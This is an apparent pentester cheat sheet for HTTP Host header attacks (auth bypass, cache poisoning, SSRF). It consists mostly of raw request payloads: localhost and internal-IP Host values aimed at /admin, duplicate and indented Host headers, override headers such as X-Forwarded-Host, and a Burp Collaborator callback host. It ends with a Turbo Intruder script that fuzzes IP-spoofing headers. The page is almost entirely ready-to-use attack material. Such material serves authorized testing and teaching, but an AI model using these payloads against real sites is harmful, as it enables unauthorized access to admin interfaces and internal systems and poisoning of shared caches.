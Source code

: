 [#](#) Host Header

- Bypass Auth
- Cache Poisoning
- SSRF **Ensure to unchecked the auto-update host in intruder**

### Payloads

    GET /example HTTP/1.1
    Host: localost # get /admin
    
    GET /example HTTP/1.1
    Host: AAAA.vulnerable-website.com
    
    GET /example HTTP/1.1
    Host: legit.com
    Host: AAAA.com # test with .com and w/o
    
    GET /example HTTP/1.1
    Host: legit.com
     Host: AAAA.com
     
    GET https://legit.com/ HTTP/1.1
    Host: AAAA

    GET /example HTTP/1.1
    Host: legit.com
X-Forwarded-Host: AAAA
X-Host: AAAA
X-Forwarded-Server: AAAA
X-HTTP-Host-Override: AAAA
Forwarded: AAAA
    
    GET /example HTTP/1.1
    Host: 192.168.0.1/24 # (intruder)
    
    GET /example HTTP/1.1
    Host: collab.burp # (intruder)
    
    Send Group in Sequence (Single Connection)
    Request 1:
        GET / HTTP/1.1
        Host: legit.com
        Connection: keep-alive
    Request 2: 
        GET /admin HTTP/1.1
        Host: 192.168.0.1
        Connection: keep-alive

Turbo Intruder:

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=100,
                           pipeline=False
                           )
    l = ["X-Originating-IP",
"X-Forwarded-For",
"X-Remote-IP",
"X-Remote-Addr",
"X-Client-IP",
"X-Host",
"X-Forwared-Host"]

    for h in l:
        engine.queue(target.req, [h, h])


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    if req.status != 404:
        table.add(req)
```
